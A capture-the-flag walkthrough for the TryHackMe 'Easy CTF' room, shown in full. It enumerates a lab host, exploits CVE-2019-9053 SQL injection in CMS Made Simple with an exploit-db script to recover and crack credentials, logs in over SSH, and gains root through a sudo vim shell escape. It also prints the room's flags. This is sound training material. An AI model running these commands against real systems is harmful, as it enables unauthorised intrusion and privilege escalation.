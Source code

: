 # Room: Easy CTF

## General Info
- **Room link:** [Easy CTF](https://tryhackme.com/room/easyctf)

## Description

Deploy the machine and attempt the questions!

## Provided Files / Links
- [x] Target Machine IP (10.10.171.52)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV -p1-1000 10.10.171.52`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

How many services are running under port 1000?
**2**

What is running on the higher port?


- Directories Enumeration

`gobuster dir -u 10.10.171.52 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100`

I found this directory:
`/simple               (Status: 301) [Size: 313] [--> http://10.10.171.52/simple/]`

When accessing the page, it's a CMS `CMS Made Simple` and the version is 2.2.8.

When looking for an exploit on this version, I found the answer for the next question.

What's the CVE you're using against the application?
**CVE-2019-9053**

To what kind of vulnerability is the application vulnerable?
**SQLi** (SQL Injection)

## Exploitation

I downloaded this python script here https://www.exploit-db.com/exploits/46635 to exploit the CMS.

I ran the following command:
`python3 46635.py -u http://10.10.171.52/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt `

And got the following results:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

What's the password?
**secret**

Where can you login with the details obtained?
**ssh**

## Target machine exploitation

From the results obtained in the first part of this ctf, we know that ssh is actually in port 2222.
To connect through ssh: `ssh mitch@10.10.171.52 -p 2222` with `secret` as the password.

I found the user flag in the user.txt file in the /home/mitch directory:
**G00d j0b, keep up!**

I found another user in the home directory: **sunbath**.

I then tried `sudo -l` to find the user's permissions and found the following:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

I then went to https://gtfobins.github.io/gtfobins/vim/ and used this command to get root privleges: `sudo vim -c ':!/bin/sh'`

Being root now, I can find the flag in the root.txt file in the /root directory:
**W3ll d0n3. You made it!**
